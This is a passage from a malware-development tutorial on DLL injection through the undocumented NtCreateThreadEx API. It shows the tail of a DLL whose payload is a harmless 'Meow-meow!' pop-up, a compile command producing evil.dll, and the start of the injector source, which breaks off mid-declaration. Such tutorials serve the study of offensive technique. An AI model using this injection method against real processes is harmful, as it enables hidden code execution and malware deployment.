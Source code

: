 ```cpp
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

As usually, it's pretty simple. Just pop-up "Meow-meow!". 

Let's go to compile our DLL:   

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![dll injection 2](./images/29/2021-12-07_09-48.png){width="80%"}    

Then, let's take a look to the source code of our malware (`hack.cpp`):    

```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
  OUT PVOID lpBytesBuffer
```